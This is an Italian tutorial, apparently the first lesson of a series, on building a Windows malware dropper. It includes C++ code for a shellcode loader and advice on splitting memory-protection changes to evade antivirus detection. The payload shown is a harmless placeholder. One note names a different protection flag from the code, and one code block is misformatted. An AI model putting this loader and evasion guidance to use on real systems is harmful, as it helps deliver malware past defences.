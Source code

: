 ## Lezione 1: Droppers ##
### Cosa è un Dropper ###
I **droppers** sono dei programmi creati principalmente con l’obiettivo di diffondere un malware, un virus o una backdoor verso un computer bersaglio in modo tale da evitarne, attraverso l’utilizzo di sofisticate tecniche di offuscamento, il rilevamento da parte degli antivirus (e Sandbox). Un dropper sofisticato può essere utilizzato anche per sopravvivere al riavvio della macchina (**persistenza**) o per eseguire una ricognizione approfondita locale e della rete della vittima (***movimento laterale***).

### Dove memorizzare il payload? ###
Ora immergiamoci nello sviluppo del dropper. Il payload, nel caso di un dropper EXE, può essere memorizzato in una delle tre sezioni di un file eseguibile (PE – Portable Executable). La scelta della sezione (sections) da utilizzare varierà drasticamente il codice di implementazione. Diamo uno sguardo alle sezioni disponibili in un file PE:

![image](https://user-images.githubusercontent.com/85390166/180658227-f0e867e9-e381-4ad2-9712-998a9db2d1b1.png)

- .text: E’ necessario inserire il payload in una delle funzioni del codice (es: main / Il nostro caso).
- .data: Il modo più semplice per farlo è inserire il payload in una variabile globale.
- .rsrc: E’ necessario inserire il payload all’interno delle risorse (es: icone, file manifest e immagini).

Ora analizziamo le funzioni WINAPI che il nostro dropper utilizzerà per il rilascio del payload.

### WINAPI ###
Le WINAPI utilizzate nel nostro Dropper sono le seguenti: VirtualAlloc, RtlMoveMemory, VirtualProtect, CreateThread, WaitForSingleObject. Di seguito l’analisi dettagliata delle singole API.
### VirtualAlloc ###
Tale funzione riserverà una regione di pagine (memory buffer) nello spazio degli indirizzi virtuali del processo chiamante per il nostro payload. E’ un modo che ci aiuta a “creare” lo spazio in memoria che conterrà il nostro payload.
Sintassi:
```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```
### RtlMoveMemory ###
E’ una API che ci permette di copiare un blocco di memoria sorgente in un blocco di memoria di destinazione. Nel nostro caso andremo a copiare  il payload nel nostro nuovo buffer creato.
```cpp
VOID RtlMoveMemory(
  _Out_       VOID UNALIGNED *Destination,
  _In_  const VOID UNALIGNED *Source,
  _In_        SIZE_T         Length
);
```
### VirtualProtect ###
Una funzione fondamentale per il cambio delle protezioni delle regioni di memoria degli indirizzi virtuali. Lo utilizzeremo per rendere eseguibile il nostro nuovo buffer creato.
```cpp
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```
### CreateThread ###
Una funzione semplice da comprendere. Crea un Thread del payload da eseguire nello spazio degli indirizzi virtuali del processo chiamante.
```cpp
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```
### WaitForSingleObject ###
Attende finché l’oggetto specificato non si trova nello stato segnalato o finché non scade l’intervallo di time-out. Verrà utilizzato per verificare che non vi siano errori con il cambio di protezione apportato da VirtualProtect e che quindi il Thread del payload può essere creato.
```cpp
DWORD WaitForSingleObject(
  [in] HANDLE hHandle,
  [in] DWORD  dwMilliseconds
);
```
### Aggiungiamo il nostro payload ##
Per prima cosa abbiamo la necessità di aggiunge al nostro dropper il codice del payload. Per far ciò ci basterà dichiarare un char[] che conterrà l’esadecimale dell’intero codice del nostro payload.
**NB:** In questa sezione, attraverso l’uso di tecniche di offuscamento, è possibile codificare il codice del payload per renderlo FUD (fully undetectable). Affronteremo questo argomento nei prossimi episodi.
Implementiamo la procedura:
```cpp
void * exec_mem;	
DWORD flOldProtect = 0;
unsigned char payload[] = { // Qui andrà posizionato il nostro codice.
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
};
unsigned int dwSize = sizeof(payload) / sizeof(char); // Calcoliamo le dimensioni del nostro payload (verrà utilizzato successivamente per l’allocazione della memoria necessaria a contenere il nostro payload).
### Allocazione del memory buffer ###
Ora bisogna allocare un memory buffer in modo da “trasferire” in memoria il nostro payload da avviare successivamente.
Implementiamo la procedura:
// Allocazione della memoria necessaria a contenere il payload (memory buffer)
exec_mem = VirtualAlloc(0, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
// Copia del payload nel nuovo buffer
RtlMoveMemory(exec_mem, payload, dwSize);
```
### Avvio del payload ###
Bene, siamo giunti al termine di questo episodio. Ora non ci resta che avviare il payload grazie all’uso di un Thread. 
Implementiamo la procedura:
```cpp
// Make new buffer as executable
BOOL bStatus = VirtualProtect(exec_mem, dwSize, PAGE_EXECUTE_READ, &flOldProtect);
// If all good, run the payload
if ( bStatus != 0 ) {
HANDLE th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
	WaitForSingleObject(th, -1);
}
```
**INFO:** Leggendo il sorgente di questa sezione, ci si potrebbe chiedere “perché la protezione di memoria PAGE_EXECUTE_READWRITE è stata impostata nella funzione VirtualProtect e non in VirtualAlloc assieme a MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE?”.
La ragione è semplice: Alcuni analisti (o gli engine degli AV), poiché è abbastanza insolito che il processo abbia necessità di avere una zona di memoria che sia leggibile, scrivibile ed eseguibile allo stesso tempo, potrebbero identificare come malevola tale “firma”. Quindi per aggirare il rilevamento suddividiamo il processo di allocazione di memoria in due fasi distinte: allocamento come leggibile e scrivibile e poi, infine, come eseguibile.
Nei prossimi episodi proveremo a inserire un payload nella sezione rsrc.
